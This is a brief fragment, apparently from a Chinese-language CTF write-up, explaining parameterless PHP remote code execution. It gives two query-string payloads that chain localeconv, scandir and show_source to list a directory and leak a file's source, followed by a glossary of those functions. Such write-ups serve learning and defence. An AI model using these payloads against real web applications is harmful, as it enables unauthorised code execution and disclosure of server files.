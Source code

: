 ```php
?exp=print_r(scandir(pos(localeconv())));
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

<img src="./images/4.png" alt="">

<img src="./images/5.png" alt="">

```
无参数RCE

localeconv()：函数返回一包含本地数字及货币格式信息的数组
scandir()：列出 images 目录中的文件和目录
readfile()：输出一个文件
current()：返回数组中的当前单元, 默认取第一个值
pos()：current() 的别名
next()：函数将内部指针指向数组中的下一个元素并输出
array_reverse()：以相反的元素顺序返回数组
highlight_file()：打印输出或者返回 filename 文件中语法高亮版本的代码
```

<img src="./images/6.png" alt="">
